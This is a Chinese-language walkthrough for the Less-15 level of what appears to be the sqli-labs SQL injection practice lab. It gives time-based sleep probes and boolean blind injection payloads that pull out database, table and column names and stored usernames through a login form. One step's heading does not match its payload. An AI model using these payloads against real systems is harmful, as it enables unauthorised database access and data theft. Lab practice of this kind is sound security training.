








# Less - 15

---

# 通关教程

---

## 1、判断闭合方式

---

```html
uname=admin'&passwd=admin&submit=Submit #没有错误显示
uname=admin"&passwd=admin&submit=Submit #没有错误显示
```

​​

​​

---

这里我们发现我们不管我们输入什么都是没有错误信息显示的，这里我们可以使用时间盲注的方法判断注入点

```html
uname=admin' and sleep(5)#&passwd=admin&submit=Submit #页面休眠5秒
uname=admin" and sleep(5)#&passwd=admin&submit=Submit #页面快速反应
```

​​

​​

由此判断闭合方式为’#，并且为字符型注入。这里没有错误回显，所以我们只能使用Boolean盲注

---

## 2、查看当前数据库长度

---

```html
uname=a' or length(database())=8#&passwd=admin&submit=Submit
```

​​

---

## 3、判断当前数据库的第一个字母

---

```html
uname=a' or substr((select table_name from information_schema.tables where table_schema='security' limit 0,1),1,1)='e'#&passwd=admin&submit=Submit
```

​​

---

## 4、判断users表下的第一个字段的第一个字母

---

```html
uname=a' or substr((select column_name from information_schema.columns where table_name='users' limit 0,1),1,1)='a'#&passwd=admin&submit=Submit
```

​​

---

## 5、判断username字段的第一个值的第一个字母

---

```html
uname=a' or substr((select username from security.users limit 0,1),1,1)='d'#&passwd=admin&submit=Submit
```

​​

‍
